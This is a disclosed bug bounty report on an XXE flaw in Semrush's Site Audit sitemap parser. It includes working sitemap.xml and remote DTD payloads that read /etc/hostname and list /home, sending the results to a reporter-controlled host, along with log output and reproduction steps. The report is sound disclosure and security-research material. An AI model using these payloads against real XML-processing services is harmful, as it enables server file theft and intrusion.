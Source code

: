 # XXE in Site Audit function exposing file and directory contents

## Report Details
- **Report ID**: 312543
- **URL**: https://hackerone.com/reports/312543
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-02-05T15:10:15.336Z
- **Disclosed**: 2018-03-13T14:24:37.574Z

## Reporter
- **Username**: ajxchapman
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: semrush

## Vulnerability Information
**Summary:** 
The Project Site Audit function is vulnerable to XXE when parsing sitemap.xml files.

**Description:** 
The Site Audit function spiders a given website and performs analysis on the discovered pages. In order to improve website spidering the URL of a `sitemap.xml` file can be provided. If provided, the `sitemap.xml` file will be downloaded and processed by a Java XML processor.

The Java xml processor used is vulnerable to XXE attacks. By providing an external document type declaration (DTD) the XML processor can be coerced into processing external entities, for example:

**sitemap.xml**
```xml
<?xml version="1.0" encoding="utf-8"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://xxe.webhooks.pw/text.txt" >]>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9" 
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.sitemaps.org/schemas/sitemap/0.9 http://www.sitemaps.org/schemas/sitemap/0.9/sitemap.xsd">
    <url>
        <loc>&xxe;</loc>
        <lastmod>2006-11-18</lastmod>
        <changefreq>daily</changefreq>
        <priority>0.8</priority>
    </url>
</urlset>
```
Will cause the XML processor to process the external entity at http://xxe.webhooks.pw/text.txt:
```
"███" - - [05/Feb/2018:13:12:26 +0000] "GET /text.txt HTTP/1.1" 302 - "-" "Java/1.8.0_144"
```

This issue can be abused to read arbitrary files and list directory contents from the filesystem of the XML processor application. See the supporting materials below for an example of reading the `/etc/hostname` file and listing the contents of the `/home` directory.

## Browsers Verified In:

* Firefox 58.0.1 (64-bit)
* Google Chrome 63.0.3239.132 (64-bit)

## Steps To Reproduce:

  1. Create a new project with the domain hosting the malicious `sitemap.xml` file, e.g. `semrush.webhooks.pw`
  2. Set up a new "Site Audit"
  3. Within "Site Audit Settings" change "Crawl Source" to "Enter sitemap URL" and add the url of the malicious `sitemap.xml` file. An example `sitemap.xml`, e.g. http://static.webhooks.pw/files/semrush_sitemap.xml.
  4. Start the "Site Audit"
  5. The "Site Audit" background process will then kick off, download the provided sitemap.xml file and process it, triggering the XXE vulnerability.

See the attached screen capture for an example of exploiting this issue. Note, this screen capture is approximately 1 minute long.

## Supporting Material/References:
### File reading
**sitemap.xml**
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE urlset [
 <!ENTITY % goodies SYSTEM "file:///etc/hostname">
 <!ENTITY % dtd SYSTEM "http://dtd.webhooks.pw/files/combine.dtd">
%dtd;
]>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9" 
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.sitemaps.org/schemas/sitemap/0.9 http://www.sitemaps.org/schemas/sitemap/0.9/sitemap.xsd">
    <url>
        <loc>http://location.webhooks.pw/resp/&xxe;</loc>
        <lastmod>2006-11-18</lastmod>
        <changefreq>daily</changefreq>
        <priority>0.8</priority>
    </url>
</urlset>
```
**combine.dtd**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY xxe "%goodies;">
```

**Output:**
```
"46.229.173.66" - - [05/Feb/2018:14:26:02 +0000] "GET /resp/███████ HTTP/1.1" 302 - "-" "Mozilla/5.0 (compatible; SemrushBot-SA/0.97; +http://www.semrush.com/bot.html)"
---

Decoded:
███████
```

### Directory listing
**sitemap.xml**
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE urlset [
 <!ENTITY % goodies SYSTEM "file:///home/">
 <!ENTITY % dtd SYSTEM "http://dtd.webhooks.pw/files/combine.dtd">
%dtd;
]>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9" 
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.sitemaps.org/schemas/sitemap/0.9 http://www.sitemaps.org/schemas/sitemap/0.9/sitemap.xsd">
    <url>
        <loc>http://location.webhooks.pw/resp/&xxe;</loc>
        <lastmod>2006-11-18</lastmod>
        <changefreq>daily</changefreq>
        <priority>0.8</priority>
    </url>
</urlset>
```
**combine.dtd**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY xxe "%goodies;">
```

**Output:**
```
"46.229.173.66" - - [05/Feb/2018:14:39:35 +0000] "GET /resp/██████ HTTP/1.1" 302 - "-" "Mozilla/5.0 (compatible; SemrushBot-SA/0.97; +http://www.semrush.com/bot.html)"
---

Decoded:
██████████
█████
█████
cdh
█████████
██████
███████
█████
█████████
██████████
███
████████
lost found
███████
█████████
█████████
```

## Impact

This issue could be abused to identify and list the contents of sensitive files on the Semrush server which implements the Site Audit functionality.

## Attachments
- semrush_xxe3.gif
